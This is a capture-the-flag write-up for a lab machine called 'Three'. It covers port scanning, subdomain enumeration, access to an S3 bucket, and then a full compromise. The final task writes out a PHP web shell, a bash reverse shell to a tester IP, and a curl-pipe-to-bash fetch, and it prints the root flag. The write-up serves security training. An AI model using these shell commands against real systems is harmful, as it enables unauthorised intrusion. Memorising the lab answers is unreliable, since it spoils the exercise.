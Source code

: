 # Three

## Initial Scan

```bash
nmap -sV -T4 -v 10.129.232.222
Starting Nmap 7.80 ( https://nmap.org ) at 2022-09-16 18:35 EDT
NSE: Loaded 45 scripts for scanning.
Initiating Ping Scan at 18:35
Scanning 10.129.232.222 [2 ports]
Completed Ping Scan at 18:35, 0.05s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 18:35
Completed Parallel DNS resolution of 1 host. at 18:35, 0.08s elapsed
Initiating Connect Scan at 18:35
Scanning 10.129.232.222 [1000 ports]
Discovered open port 22/tcp on 10.129.232.222
Discovered open port 80/tcp on 10.129.232.222
Completed Connect Scan at 18:35, 0.71s elapsed (1000 total ports)
Initiating Service scan at 18:35
Scanning 2 services on 10.129.232.222
Stats: 0:00:07 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 50.00% done; ETC: 18:35 (0:00:06 remaining)
Completed Service scan at 18:35, 6.11s elapsed (2 services on 1 host)
NSE: Script scanning 10.129.232.222.
Initiating NSE at 18:35
Completed NSE at 18:35, 0.26s elapsed
Initiating NSE at 18:35
Completed NSE at 18:35, 0.20s elapsed
Nmap scan report for 10.129.232.222
Host is up (0.045s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.98 seconds
```

## Task 1

#### How many TCP ports are open?

Found within the initial scan

Answer: 2

## Task 2

#### What is the domain of the email address provided in the "Contact" section of the website?

We see port 80 open on the target, when browsing the website of the target, going to Contact we see the email address.

<figure><img src="../../../../.gitbook/assets/image (105).png" alt=""><figcaption></figcaption></figure>

Answer: thetoppers.htb

## Task 3

#### In the absence of a DNS server, which Linux file can we use to resolve hostnames to IP addresses in order to be able to access the websites that point to those hostnames?

General knowledge. Using the Host file on various systems can be used in lieu of a DNS server if they are hosted internally.

Answer: /etc/hosts

## Task 4

#### Which sub-domain is discovered during further enumeration?

After editing the host file to map the IP to the domain, we can use Gobuster to help enumerate the site.

<figure><img src="../../../../.gitbook/assets/image (102).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (10) (2).png" alt=""><figcaption></figcaption></figure>

Answer: s3.thetoppers.htb

## Task 5

#### Which service is running on the discovered sub-domain?

Since it's s3 by amazon, also if we google: s3 subdomain

Answer: Amazon S3

## Task 6

#### Which command line utility can be used to interact with the service running on the discovered sub-domain?

Knowing it's amazon S3, what can we use to interact with it? Googling "Interact with Amazon S3" will give us our result

Answer: awscli

## Task 7

#### Which command is used to set up the AWS CLI installation?

`aws help` will give us our answer.

Answer: aws configure

## Task 8

#### What is the command used by the above utility to list all of the S3 buckets?

After configuring aws

<figure><img src="../../../../.gitbook/assets/image (108).png" alt=""><figcaption></figcaption></figure>

we can look at the S3 documentation.

Answer: aws s3 ls

## Task 9

#### This server is configured to run files written in what web scripting language?

Looking at the buckets with: `aws --endpoint=http://s3.thetoppers.htb s3 ls`

<figure><img src="../../../../.gitbook/assets/image (11) (3).png" alt=""><figcaption></figcaption></figure>

we can go into this further: `aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb`

<figure><img src="../../../../.gitbook/assets/image (4) (3).png" alt=""><figcaption></figcaption></figure>

With this basic info we can see this would use PHP

Answer: PHP

## Task 10

#### Submit Root Flag

So knowing it runs on PHP and with Amazons S3, we are going to work on getting a remote shell. Googling "get shell with php" I see we can use the `system()` function which takes the URL parameter `cmd` as an input and executes it as a system command.

```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

With the shell file created, we can use `cp` to get the file onto the server and run CMD.

<figure><img src="../../../../.gitbook/assets/image (6) (3).png" alt=""><figcaption></figcaption></figure>

Confirm that our shell is uploaded by navigating to http://thetoppers.htb/shell.php.

We are met with: `uid=33(www-data) gid=33(www-data) groups=33(www-data)` the output of the OS command `id`.

Now lets make a revershell script

```bash
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.119/1337 0>&1
```

<figure><img src="../../../../.gitbook/assets/image (16) (3).png" alt=""><figcaption></figcaption></figure>

Going to open a netcat shell with `nc -nvlp 1337`&#x20;

<figure><img src="../../../../.gitbook/assets/image (109).png" alt=""><figcaption></figcaption></figure>

Now open a temp webserver to pull our script from: `python3 -m http.server 8081`&#x20;

<figure><img src="../../../../.gitbook/assets/image (11) (3) (1).png" alt=""><figcaption></figcaption></figure>

Now we can use curl to get our script onto the server and executing it:

http://thetoppers.htb/shell.php?cmd=curl%20%3C10.10.14.119%3E:8081/shell.sh|bash

We now can see our reverse shell:

<figure><img src="../../../../.gitbook/assets/image (2) (3).png" alt=""><figcaption></figcaption></figure>

Now we can locate the flag and cat it's contents

<figure><img src="../../../../.gitbook/assets/image (106).png" alt=""><figcaption></figcaption></figure>

Answer: a980d99281a28d638ac68b9bf9453c2b
